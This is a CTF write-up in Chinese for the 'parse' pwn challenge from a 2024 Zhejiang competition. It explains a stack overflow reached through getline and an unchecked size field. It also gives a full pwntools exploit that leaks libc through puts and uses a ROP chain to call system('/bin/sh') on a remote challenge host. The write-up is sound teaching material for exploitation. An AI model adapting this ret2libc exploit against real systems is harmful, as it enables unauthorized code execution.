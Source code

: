 ```yaml
---
title: 2024浙江通信行业职业技能竞赛 - parse 
date: 2024/08/05 21:22:00
updated: 2024/08/05 21:22:00
tags:
    - rop
excerpt: （信息安全测试员竞赛）通过栈溢出利用`getline`输入，构造payload执行ROP，最终成功获取动态flag。
---
```


{% note info fa-paperclip %}
题目可以在[Releases](https://github.com/RocketMaDev/CTFWriteup/releases/download/career/career.tar.zst)附件中找到
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |2.31-0ubuntu9.16|

## 解题思路

剥了符号的C++题，程序通过`getline`来获取输入，可以输入`\0`字符；
之后程序把输入的字符串复制到栈上，开头有一个签名，然后跟一个包的大小，
可以写为0，这样在构建包对象时`size`就会变成字符串的大小+0x20，可以超过0xff

当输入的长度为0x216时会覆盖到栈上的一个标志，之后可以利用栈溢出

```c
void copyToBuf(Packet *packet,void *src)
{
    undefined buf [256];
    
    std::__cxx11::basic_string<>::c_str(&packet->content);
    memcpy(buf,src,(ulong)(uint)packet->size);
    return;
}
```

设置标志后就会执行上面的函数，然后打rop回到`main`函数再来一次栈溢出就可以

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './parse'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
        libc = ELF('/usr/lib/libc.so.6')
    else:
        sh = remote('10.10.26.199', 27370)
        libc = ELF('./libc-2.31.so')
    elf = ELF(EXE)
    gadgets = ROP(elf)
    rdi = gadgets.rdi.address
    ret = gadgets.ret.address
    main = 0x4014e1

    def mkPacket(rop: bytes) -> bytes:
        head = p32(0x12345678) + p32(0)
        return (head + b'0'*0x108 + rop).ljust(0x200) + b'0'*16

    sh.sendline(mkPacket(p64(rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(main)))

    sh.recvuntil(b'....\n')
    libcBase = u64(sh.recv(6) + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase
    
    sh.sendline(mkPacket(p64(rdi) + p64(next(libc.search(b'/bin/sh'))) +
                         p64(ret) + p64(libc.symbols['system'])))

    sh.clean()
    sh.interactive()
```

> 环境给了个静态flag，结果显示提交错误，最后换成了动态flag才成

